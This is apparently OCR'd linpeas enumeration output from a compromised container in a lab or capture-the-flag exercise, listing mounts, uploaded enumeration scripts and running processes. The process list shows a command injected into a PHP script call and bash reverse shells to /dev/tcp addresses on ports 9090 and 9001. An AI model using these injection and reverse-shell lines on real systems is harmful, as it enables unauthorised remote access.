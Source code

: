 cgroup on /sys/fs/cgroup/net_cls,net_prio type cgroup (ro,nosuid,nodev,noexec,relatime,net_cls,net_prio)
cgroup on /sys/fs/cgroup/rdma type cgroup (ro,nosuid,nodev,noexec,relatime,rdma)
cgroup on /sys/fs/cgroup/cpu,cpuacct type cgroup (ro,nosuid,nodev,noexec,relatime,cpu,cpuacct)
cgroup on /sys/fs/cgroup/memory type cgroup (ro,nosuid,nodev,noexec,relatime,memory)
cgroup on /sys/fs/cgroup/blkio type cgroup (ro,nosuid,nodev,noexec,relatime,blkio)
cgroup on /sys/fs/cgroup/perf_event type cgroup (ro,nosuid,nodev,noexec,relatime,perf_event)
cgroup on /sys/fs/cgroup/freezer type cgroup (ro,nosuid,nodev,noexec,relatime,freezer)
mqueue on /dev/mqueue type mqueue (rw,nosuid,nodev,noexec,relatime)
/dev/sda2 on /entrypoint.sh type ext4 (rw,relatime)
/dev/sda2 on /etc/resolv.conf type ext4 (rw,relatime)
/dev/sda2 on /etc/hostname type ext4 (rw,relatime)
/dev/sda2 on /etc/hosts type ext4 (rw,relatime)
shm on /dev/shm type tmpfs (rw,nosuid,nodev,noexec,relatime,size=65536k)
proc on /proc/bus type proc (ro,nosuid,nodev,noexec,relatime)
proc on /proc/fs type proc (ro,nosuid,nodev,noexec,relatime)
proc on /proc/irq type proc (ro,nosuid,nodev,noexec,relatime)
proc on /proc/sys type proc (ro,nosuid,nodev,noexec,relatime)
proc on /proc/sysrq-trigger type proc (ro,nosuid,nodev,noexec,relatime)
tmpfs on /proc/acpi type tmpfs (ro,relatime)
tmpfs on /proc/kcore type tmpfs (rw,nosuid,size=65536k,mode=755)
tmpfs on /proc/keys type tmpfs (rw,nosuid,size=65536k,mode=755)
tmpfs on /proc/timer_list type tmpfs (rw,nosuid,size=65536k,mode=755)
tmpfs on /proc/sched_debug type tmpfs (rw,nosuid,size=65536k,mode=755)
tmpfs on /proc/scsi type tmpfs (ro,relatime)
tmpfs on /sys/firmware type tmpfs (ro,relatime)

╔══════════╣ Possible Entrypoints
-rw-r--r-- 1 root     root      648 Jan  5 11:37 /entrypoint.sh                                                     
-rw-r--r-- 1 www-data www-data  38K May 13 16:12 /tmp/deepce.sh
-rw-r--r-- 1 www-data www-data 807K May 13 16:18 /tmp/linpeas.sh



                                     ╔═══════╗
═════════════════════════════════════╣ Cloud ╠═════════════════════════════════════                                 
                                     ╚═══════╝                                                                      
═╣ Google Cloud Platform? ............... No
═╣ AWS ECS? ............................. No
═╣ AWS EC2? ............................. No
═╣ AWS Lambda? .......................... No



                ╔════════════════════════════════════════════════╗
════════════════╣ Processes, Crons, Timers, Services and Sockets ╠════════════════                                  
                ╚════════════════════════════════════════════════╝                                                  
╔══════════╣ Cleaned processes
╚ Check weird & unexpected proceses run by root: https://book.hacktricks.xyz/linux-hardening/privilege-escalation#processes                                                                                                             
root           1  0.0  0.6  80160 25388 ?        Ss   13:58   0:01 apache2 -DFOREGROUND                             
www-data      38  0.2  0.6  87084 24660 ?        S    13:59   0:52 apache2 -DFOREGROUND
www-data    1499  0.0  0.0   2476   568 ?        S    15:14   0:00  _ sh -c /usr/local/bin/php -q /var/www/html/script_server.php realtime ;bash -c 'bash -i >& /dev/tcp/10.10.14.46/9090 0>&1'
www-data    1501  0.0  0.0   3892  2868 ?        S    15:14   0:00      _ bash -c bash -i >& /dev/tcp/10.10.14.46/9090 0>&1
www-data    1502  0.0  0.0   4156  3264 ?        S    15:14   0:00          _ bash -i
root        1503  0.0  0.0   3892  2984 ?        S    15:14   0:00              _ /bin/bash
root        1818  0.0  0.0   3892  2868 ?        S    15:22   0:00                  _ /bin/bash
www-data      74  0.3  0.6  86996 24592 ?        S    14:00   1:07 apache2 -DFOREGROUND
www-data    1425  0.0  0.0   2476   580 ?        S    15:02   0:00  _ sh -c /usr/local/bin/php -q /var/www/html/script_server.php realtime ;bash -c 'bash -i >& /dev/tcp/10.10.16.3/9001 0>&1'
www-data    1427  0.0  0.0   3892  2940 ?        S    15:02   0:00      _ bash -c bash -i >& /dev/tcp/10.10.16.3/9001 0>&1
www-data    1428  0.0  0.0   4156  3244 ?        S    15:02   0:00          _ bash -i
www-data    1429  0.0  0.0   2440   652 ?        S    15:02   0:00              _ script -qc /bin/bash /dev/null